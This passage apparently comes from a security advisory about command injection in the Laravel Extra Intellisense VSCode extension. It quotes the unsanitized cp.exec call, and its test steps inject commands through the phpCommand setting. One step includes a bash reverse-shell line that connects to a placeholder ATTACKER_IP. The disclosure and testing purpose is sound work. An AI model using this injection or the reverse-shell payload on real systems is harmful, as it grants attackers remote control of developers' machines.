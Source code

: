             cp.exec(command, // Line 215: Command is executed here WITHOUT any sanitization of commandTemplate or code.
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) {
                    if (err == null) {
                        if (description != null) {
                            Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                        }
                        resolve(stdout);
                    } else {
                        const errorOutput = stderr.length > 0 ? stderr : stdout;
                        Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                        Helpers.showErrorPopup();
                        error(errorOutput);
                    }
                }
            );
        });
        return out;
    }
    ```
    **Visualization:**

    ```
    User Configuration (phpCommand) --> runPhp() --> cp.exec(command) --> System Command Execution
                                       ^
                                       |
                                       {code} placeholder replaced by extension-generated PHP code
    ```

* Security Test Case:
    1. Create a new Laravel project or use an existing one.
    2. Open the project in VSCode.
    3. In VSCode, go to `File` > `Preferences` > `Settings` (or `Code` > `Settings` > `Settings` on macOS).
    4. Go to `Workspace` settings.
    5. Search for `LaravelExtraIntellisense: Php Command`.
    6. Modify the `phpCommand` setting to: `php -r "{code}"; touch malicious_file_phpcommand_rce`
    7. Open any PHP or Blade file in the project.
    8. Trigger any autocompletion feature of the extension, for example, type `Route::` in a PHP file to trigger route autocompletion.
    9. Check the workspace directory. A file named `malicious_file_phpcommand_rce` will be created, indicating successful command injection.
    10. For a more impactful test, try to execute a reverse shell or exfiltrate data using commands injected into `phpCommand`. For example: `php -r "{code}"; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'` (Replace `ATTACKER_IP` and `ATTACKER_PORT` with your attacker machine's IP and port and set up a listener on your machine).

#### 2. Potential Code Injection via `basePathForCode` configuration (Less likely, but worth noting)
